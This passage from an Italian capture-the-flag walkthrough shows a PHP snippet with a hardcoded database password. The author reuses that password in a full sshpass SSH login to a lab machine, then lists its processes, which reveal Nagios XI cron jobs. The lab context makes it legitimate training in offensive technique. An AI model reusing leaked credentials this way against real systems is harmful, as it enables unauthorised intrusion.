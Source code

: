 ```
$connection = mysqli_connect('localhost', 'darren', 'Buc4t1n1C4c103P3p3');
if (!$connection){
    die("Database Connection Failed" . mysqli_error($connection));
}
$select_db = mysqli_select_db($connection, 'shop');
if (!$select_db){
    die("Database Selection Failed" . mysqli_error($connection));
}
```
Utilizziamo le credenziali appena trovate per accedere in ssh alla macchina e - dopo aver preso la flag *user.txt* - procediamo con l’enumerazione del filesystem
```
$ sshpass -p Buc4t1n1C4c103P3p3 ssh darren@172.16.150.137
Welcome to Ubuntu 18.10 (GNU/Linux 4.18.0-25-generic x86_64)
[...]
Last login: Sat Jan 25 01:00:54 2020 from 172.16.150.151
darren@shopper:~$
```
```
darren@shopper:~$ ps auxw                                                                                                  
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND                                                  
root          1  0.1  0.8 194928  8492 ?        Ss   20:03   0:06 /lib/systemd/systemd --system --deserialize 36           
root          2  0.0  0.0      0     0 ?        S    20:03   0:00 [kthreadd]                                               
root          3  0.0  0.0      0     0 ?        I<   20:03   0:00 [rcu_gp]                                                 
root          4  0.0  0.0      0     0 ?        I<   20:03   0:00 [rcu_par_gp]                                             
root          6  0.0  0.0      0     0 ?        I<   20:03   0:00 [kworker/0:0H-kblockd]                                   
root          8  0.0  0.0      0     0 ?        I<   20:03   0:00 [mm_percpu_wq]                                           
root          9  0.0  0.0      0     0 ?        S    20:03   0:02 [ksoftirqd/0]                                            
root         10  0.0  0.0      0     0 ?        I    20:03   0:02 [rcu_sched]                                              
root         11  0.0  0.0      0     0 ?        I    20:03   0:00 [rcu_bh]                                                 
root         12  0.0  0.0      0     0 ?        S    20:03   0:00 [migration/0]                                            
root         13  0.0  0.0      0     0 ?        S    20:03   0:00 [watchdog/0]
[...]
nagios   117486  0.0  0.0   2560   884 ?        Ss   20:56   0:00 /bin/sh -c /usr/bin/php -q /usr/local/nagiosxi/cron/eventman.php >> /usr/local/nagiosxi/var/eventman.log 2>&1
nagios   117487  0.0  0.0   2560   884 ?        Ss   20:56   0:00 /bin/sh -c /usr/bin/php -q /usr/local/nagiosxi/cron/sysstat.php >> /usr/local/nagiosxi/var/sysstat.log 2>&1
nagios   117488  0.0  0.0   2560   820 ?        Ss   20:56   0:00 /bin/sh -c /usr/bin/php -q /usr/local/nagiosxi/cron/feedproc.php >> /usr/local/nagiosxi/var/feedproc.log 2>&1
nagios   117489  0.0  0.0   2560   816 ?        Ss   20:56   0:00 /bin/sh -c /usr/bin/php -q /usr/local/nagiosxi/cron/cmdsubsys.php >> /usr/local/nagiosxi/var/cmdsubsys.log 2>&1
nagios   117490  0.0  0.0   2560   816 ?        Ss   20:56   0:00 /bin/sh -c /usr/bin/php -q /usr/local/nagiosxi/cron/perfdataproc.php >> /usr/local/nagiosxi/var/perfdataproc.log 2
nagios   117491  0.0  0.0   2560   756 ?        Ss   20:56   0:00 /bin/sh -c /usr/bin/php -q /usr/local/nagiosxi/cron/event_handler.php >> /usr/local/nagiosxi/var/event_handler.log
nagios   117493  0.3  3.9 192484 39164 ?        S    20:56   0:00 /usr/bin/php -q /usr/local/nagiosxi/cron/eventman.php
nagios   117494  0.1  3.3 188360 33376 ?        S    20:56   0:00 /usr/bin/php -q /usr/local/nagiosxi/cron/sysstat.php
nagios   117495  0.1  3.3 186312 33096 ?        S    20:56   0:00 /usr/bin/php -q /usr/local/nagiosxi/cron/feedproc.php
```